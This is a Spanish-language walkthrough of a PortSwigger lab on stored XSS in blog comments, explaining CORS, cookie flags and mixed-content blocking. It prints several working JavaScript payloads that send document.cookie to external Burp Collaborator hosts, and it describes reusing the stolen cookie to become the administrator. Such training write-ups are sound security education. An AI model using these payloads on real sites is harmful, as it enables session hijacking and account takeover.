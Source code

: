 ```yaml
---
title: "Exploiting cross-site scripting to steal cookies"
description: "Laboratorio de Portswigger sobre XSS"
date: 2025-01-18 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XSS
tags:
  - XSS
  - Exploiting cross-site scripting to steal cookies
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una vulnerabilidad de `stored XSS` en la función de `comentarios del blog`. Un usuario `víctima` simulado ve todos los `comentarios` después de que se publiquen. Para `resolver` el `laboratorio`, debemos `explotar` la vulnerabilidad para `exfiltrar` la `cookie de sesión` de la víctima, luego usar esta `cookie` para `suplantar` a la víctima

---

## Guía de XSS

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de XSS` [https://justice-reaper.github.io/posts/XSS/](https://justice-reaper.github.io/posts/XSS/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XSS-Lab-22/image_1.png)

Si pulsamos sobre `View post` vemos que tenemos una `sección` en la que podemos hacer `comentarios`

![](/assets/img/XSS-Lab-22/image_2.png)

Al hacer un `comentario` nos mete el `input` en unas `etiquetas <p></p>`

![](/assets/img/XSS-Lab-22/image_3.png)

Sin embargo, si intentamos `inyectar` algo entre `etiquetas <h1></h1>` vemos que nos `inyecta` las `etiquetas` con su `contenido` y deja las `<p></p>` vacías

![](/assets/img/XSS-Lab-22/image_4.png)

Hay diferentes opciones para `obtener` la `cookie`, podemos utilizar `fetch` con las opciones `CORS` o `no-cors` o usando el método `GET` o `POST`. Luego tenemos a `XMLHTTPRequest`, con el cual podemos hacer tanto peticiones `GET` como `POST`, pero no podemos especificar la opción `no-cors`, es decir, siempre se tendrá en cuenta el `CORS` [https://developer.mozilla.org/es/docs/Web/HTTP/CORS](https://developer.mozilla.org/es/docs/Web/HTTP/CORS)

El `CORS` es un mecanismo basado en `cabeceras HTTP` que permite a un `servidor` indicar cualquier `dominio`, `esquema` o `puerto` con un `origen distinto` del suyo desde el que un navegador debería permitir la carga de recursos. `CORS` también se basa en un mecanismo por el cual los `navegadores` realizan una `solicitud` de `verificación previa` al `servidor` que aloja el `CORS`, con el fin de comprobar que el `servidor` permitirá la solicitud real. En esa comprobación previa, el navegador envía `cabeceras` que indican el `método HTTP` y las `cabeceras` que se `utilizarán` en la `solicitud real`

Un ejemplo de `CORS` sería el código `JavaScript` del `front-end`, desde `http://domain-a.com` utiliza `XMLHTTPRequest` para realizar una solicitud a `http://domain-b.com/data.json`

Por razones de `seguridad`, los navegadores restringen las `peticiones HTTP` de origen cruzado iniciadas desde `scripts`. Por ejemplo, `XMLHTTPRequest` y la API `Fetch` siguen la `Política Same-origin`. Esto significa que una `aplicación web` que utilice esas `API` solo puede solicitar `recursos` del mismo `origen` desde el que se cargó la aplicación, a menos que la respuesta de otros `orígenes` incluya las `cabeceras CORS` adecuadas

En esta primera petición estamos mandando una `petición` con el método `POST` y es una petición `asíncrona`, es decir, las operaciones pueden `ejecutarse` en `paralelo` o en `segundo plano`. El programa `no espera` a que una `tarea termine` para continuar con la siguiente, lo que permite que se realicen `múltiples operaciones simultáneamente`

```
<script>
    var request = new XMLHttpRequest();
    request.open('POST', 'http://lf4spwr5be5vcxtn56uquhp4yv4qsgg5.oastify.com', true);
    request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    var data = 'cookie=' + encodeURIComponent(document.cookie);
    request.send(data);
</script>
```

En este caso la `petición` se `realiza` por el método `GET` y es `síncrona`, lo cual quiere decir que el `programa` se `bloquea` hasta que esa `tarea` se `complete`, lo que `significa` que `no puede hacer nada más mientras espera`

```
<script>
    var request = new XMLHttpRequest();
    request.open('GET', 'http://gk4nurw0g9aqhsyia1zlzcuz3q9lxcl1.oastify.com/cookie=' + encodeURIComponent(document.cookie), false);
    request.send();
</script>
```

Con `fetch`, a diferencia de `XMLHTTPRequest` podemos `especificar` también si usamos `CORS` o no. El `modo no-cors` tiene la `ventaja` de poder `enviar` una `solicitud` a un `servidor` que no esté `configurado` `para permitir solicitudes de otros orígenes` (por ejemplo, un `servidor` en un `dominio diferente`) y también tiene una `desventaja`, `restringe` el `acceso` a la `respuesta`, por lo cual `no podremos leer ni manipular los datos que el servidor envíe de vuelta`

```
<script>
    fetch('http://gk4nurw0g9aqhsyia1zlzcuz3q9lxcl1.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: encodeURIComponent(document.cookie)
    });
</script>
```

En este caso estamos usando el `método GET` y siguiendo las `convenciones` de `CORS`, ya que es el `modo por defecto`. En este caso tenemos `dos formas` de `transmitir` la `petición` usando el `método GET`, si queremos especificar que `no queremos usar CORS` lo hacemos de esta forma

```
<script>
  fetch("http://0vw75b7krtlasc92lla5aw5jeaka8cw1.oastify.com?cookie=" + encodeURIComponent(document.cookie), {
    method: 'GET',
    mode: 'no-cors'
  });
</script>
```

Si `no necesitamos especificar un modo` podemos `usar` esta otra forma que `seguirá` las `directivas CORS por defecto`

```
<script>
    fetch('http://vut2466fqok5r78xkg909r4ed5j77xvm.oastify.com?cookie=' + encodeURIComponent(document.cookie));
</script>
```

Es importante `realizar` las `peticiones` a un `servidor` mediante `HTTPS` y no `HTTP` en este caso. Si usamos este `payload` la `petición` será `bloqueada` y no nos llegará nada a nuestro `servidor` de `Burpsuite Collaborator`

```
<script>
    fetch('http://vut2466fqok5r78xkg909r4ed5j77xvm.oastify.com?cookie=' + encodeURIComponent(document.cookie));
</script>
```

Si nos `abrimos` el `inspector` de `Chrome` y vemos que la `flag Secure` está seteada en la `cookie`, esta flag asegura que la `cookie` solo se enviará a través de conexiones `seguras` (`HTTPS`). Es una `medida de seguridad` para `evitar` que las `cookies` sean `transmitidas` a través de `conexiones no seguras` (`HTTP`), donde podrían ser `interceptadas` por un `atacante`. A pesar de tener esta `flag`, seguimos pudiendo obtener esta `cookie` mediante `XSS` debido a que la `flag HttpOnly no está seteada`. Esta `flag` se encarga de impedir que la `cookie` sea `accesible` a través de `JavaScript`. Si una `cookie` tiene ambas flags (`HttpOnly` y `Secure`), no podremos acceder a ella a través de `JavaScript` aunque se transmita solo por `HTTPS` y tendremos que buscar `formas alternativas`

![](/assets/img/XSS-Lab-22/image_5.png)

Si nos `abrimos` la `consola` de `desarrollador` vemos como la `petición` ha sido `bloqueada` por no ser una `petición` a un `servidor` que soporte `HTTPS`. El error `Mixed Content`, ocurre cuando una `página web cargada a través de HTTPS` intenta hacer una `solicitud` a un `recurso a través de HTTP`. Esto es considerado `inseguro` y, por lo tanto, el `navegador bloquea la solicitud` para `proteger` la `seguridad` y la `privacidad` de la `web`

![](/assets/img/XSS-Lab-22/image_6.png)

Para `resolver` el `laboratorio` debemos irnos a `Burpsuite Collaborator`, pulsar en `copy to clipboard`, `sustituir` este `subdominio` en alguno de los `cuatro tipos de payloads` explicados anteriormente y `enviarlo a través de un comentario`

![](/assets/img/XSS-Lab-22/image_7.png)

Como hay un `usuario revisando nuestro comentarios`, en el momento en el que `entre al post donde se encuentra publicado nuestro comentario` nos mandará a `Burpsuite Collaborator` sus `cookies`

![](/assets/img/XSS-Lab-22/image_8.png)

Teniendo las `cookies` del `usuario administrador`, nos debemos ir al `navegador`, pulsar `Ctrl + Shift + i` para que nos abra el `inspector` de `Chrome`, `sustituir` la `cookie` y `refrescar` la `web` pulsando `F5`

![](/assets/img/XSS-Lab-22/image_9.png)

Si pulsamos en `My account` vemos que nos hemos `convertido` en el usuario `administrator`

![](/assets/img/XSS-Lab-22/image_10.png)
